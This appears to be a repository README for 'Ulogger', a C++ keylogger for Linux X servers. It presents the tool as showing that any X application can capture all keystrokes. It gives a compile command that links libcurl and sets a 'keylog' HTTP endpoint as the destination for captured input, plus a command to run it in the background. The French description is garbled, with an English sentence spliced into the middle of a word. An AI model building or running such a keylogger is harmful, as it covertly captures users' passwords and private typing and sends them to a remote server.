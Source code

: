 # Ulogger
  
Dev: https://twitter.com/atmon3r  
Sources: https://framagit.org/tuxicoman/keylogger  

C++ Keylogger pour Linux avec Xserver.   
Ce code illuThis code illustrates that each X application can listen to all keyboard events, even if it does not have the focus.stre le fait que chaque application X peut écouter l'ensemble des événements du clavier, même si elle n'a pas le focus.

Compile:  
`g++ -ansi -Wall -Wno-deprecated-declarations -pedantic -O3 -o keylogger keylogger.cpp -L/usr/X11R6/lib -lX11 -lcurl '-DHOST=(char*)"http://localhost/?page=keylog"'`

Usage:
`./keylogger &`
